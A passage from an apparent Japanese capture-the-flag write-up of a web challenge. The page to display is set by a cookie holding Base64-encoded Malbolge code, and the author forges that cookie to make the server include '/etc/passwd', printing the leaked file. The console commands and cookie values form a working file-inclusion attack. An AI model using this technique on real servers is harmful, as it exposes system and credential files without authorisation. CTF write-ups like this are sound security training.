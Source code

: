 パスはそのままで、Cookie の `p` を書き換えてからリロードするようです。ログインボタンは `<div class="btn" onclick="handle_login()"><div>Login</div></div>` といったように、クリック時に `handle_login` 関数を呼ぶという実装がされています。`handle_login` では以下のように、ログインに成功した場合にも同様に Cookie を書き換えてリロードを行うようです。

```javascript
    var handle_login =()=>{
        let payload={
            username: document.getElementById('username').value,
            password: document.getElementById('password').value
        }
        fetch("/", {
            method:'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(payload)
        }).then(r=>{
            return r.json()
        }).then(r=>{
            if(r['status']==0){
                display_error(r['msg'])
            }else{
                document.cookie='p=KCclJTpeIn59fXt6ejFVd3V0dCswKShMbm1rKSJGaGckIyJ5Pz1PXyk6eFtZb3RzbDJTb2guT2UrdmhnOV9HJDUiIV9eV0A='
                document.location='/'
            }
        }).catch(e=> {
            display_error('Bad Request')
        })
    }
```

また、最初に問題文の URL にアクセスしたとき、Cookie の `p` には `KCcmJDpeIiF9fDRYenl3NS5SdHNycSgnS21saighRWdmZSJ5P2E8PE06OTg3WTVXVVRTUi9RbGVkY2JLJ0lIR0ZufjJBe1xoPT07dTp0VHI2SzRuIWxrWFdoQmZlZGNicyRNcD5%2BW0hZV1ZEVWZlUVFyKk5M` がセットされていました。どうやら、この Web アプリケーションでは Cookie を使って表示するページの管理を行っているようです。

Cookie の `p` をデコードしてみましょう。DevTools の Console で `atob(decodeURIComponent('KCcmJDpeIiF9fDRYenl3NS5SdHNycSgnS21saighRWdmZSJ5P2E8PE06OTg3WTVXVVRTUi9RbGVkY2JLJ0lIR0ZufjJBe1xoPT07dTp0VHI2SzRuIWxrWFdoQmZlZGNicyRNcD5%2BW0hZV1ZEVWZlUVFyKk5M'))` を実行すると、以下のような文字列が出てきました。

```
('&$:^"!}|4Xzyw5.Rtsrq('Kmlj(!Egfe"y?a<<M:987Y5WUTSR/QledcbK'IHGFn~2A{\h==;u:tTr6K4n!lkXWhBfedcbs$Mp>~[HYWVDUfeQQr*NL
```

ランダムな文字列のように見えますが、問題文の Hint 2 から Malbolge のコードと推測できます。適当な [Malbolge インタプリタ](http://www.malbolge.doleczek.pl)で実行すると、どうやらこれは `login.php` という文字列を出力するコードであると分かりました。サーバ側では、Cookie の `p` を Base64 デコード → Malbolge インタプリタで実行 → 出力された文字列を `include` もしくは `readfile` 等で出力、というような実装をしているのでしょう。

[好きな文字列を出力する Malbolge コードを作れるツール](https://zb3.me/malbolge-tools/#generator)を使ってどんなファイルが読み込めるか試してみましょう。`/etc/passwd` を出力するコードをこのツールで生成し、`copy(encodeURIComponent(btoa(document.getElementById('gen-result-area').value)))` を DevTools の Console で実行して Base64 エンコード + パーセントエンコードを行います。適当なアカウントを作って登録してからログインし、コピーされた文字列を Cookie の `p` にセットしてリロードすると、以下のように出力されました。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```